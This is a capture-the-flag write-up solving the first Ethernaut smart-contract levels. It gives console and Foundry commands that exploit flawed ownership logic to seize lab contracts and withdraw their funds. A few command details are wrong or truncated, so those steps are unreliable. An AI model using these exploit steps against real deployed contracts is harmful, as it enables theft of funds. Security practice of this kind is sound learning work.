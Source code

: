 +++
title = "Ethernaut Challenge Solutions"
date = "2024-06-03"
description = "Walkthroughs for Ethernaut CTF challenges, covering vulnerabilities and exploitation techniques."
+++

Hello peeps, recently have started learning things about blockchain.Most probably ethernaut would be the first place where people will land to get their hands dirty. I too landed here and I have noted things that I learned through out this CTF challenges.

# Introduction
Ethernaut is a foundational platform for hands-on smart contract security practice. Below are my solutions for the first two challenges, highlighting key vulnerabilities and attack vectors.  
Everytime you got a challenge, start with a click on `Get new instance`. Once you done with it click on `Submit level` option.

# 0: Hello Ethernaut
**Link:** https://ethernaut.openzeppelin.com/level/0  
**Bug:** Sensitive data exposure  
**Objective:** Familiarize yourself with contract interaction via the browser console  
**Steps:**  
- As they mentioned in the problem statement,let's open the console tab and execute `await contract.info()`. let move forward with response it gives back

![eth-1.png](../images/eth-1.png)

**Note:** You might be wondering how can I know that I need to execute the `await contract.password()` to get the password to authenticate. I strongly believe there might be a variable exist which is being checked in authenticate function. So I checked all the function and variables available in contract with the help of console suggestion whenever we add `await contract`.

# 1: Fallback
**Link:** https://ethernaut.openzeppelin.com/level/1  
**Bug:** Improper ownership transfer in receive() function.  
**Objective:** Become the owner and drain the contract’s funds.  
**Description:** The ownership will be given to the user who contributes more through `contribute()` function. But in the fallback function, I mean in the receive() function it is giving the ownership if you just send more than 0 eth and if you already contributed more than 0 eth using contribute() function.  
**Steps:**
1. make a call to contribute() function to contribute some eth.
2. now make a call to receive() function with some eth
3. call withdraw function to get all the funds from contract.

**Using Console:**
```shell
    web3.eth.sendTransaction(
        {
            from: player,
            to: contract.address,
            data: web3.eth.abi.encodeFunctionSignature("contribute()"),
            value: 10**10
        
        }
    )
    
    web3.eth.sendTransaction(
        {
            from: player,
            to: contract.address,
            data: '',
            value: 10**10
        }
    )
```

**Using Foundry:**
    I usually use foundry. In foundry setup, we have a tool called `cast` to interact with contracts. You can follow the below commands.
```shell
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E "contribute()" --value 1 --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_U
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E  --value 1 --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
    cast send 0x678be0dE93C246b60d05b0dC53E03c226A77bE0E "withdraw()" --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
```


# 2: Fal1out
**Link:** https://ethernaut.openzeppelin.com/level/2  
**Bug:** Improper ownership transfer in Fal1out() function.  
**Objective:** Become the owner and drain the contract’s funds.  
**Description:** The ownership will be given to the user who calls the `Fal1out()` function. They missed to have the contructor name same as contract name, where it's giving ownership permissions to the creator.  
**Steps:**
- call the **Fal1out()** function.

**Using Console:**
```shell
  await contract.Fal1out()
```

**Using Foundry:**
```solidity
cast call 0xb685F5c3aCdb5D874D3e1219D8a4FDF08a502c6E  "Fal1out()" --private-key $SEPOLIA_PRIVATE_KEY --rpc-url $SEPOLIA_RPC_URL
```

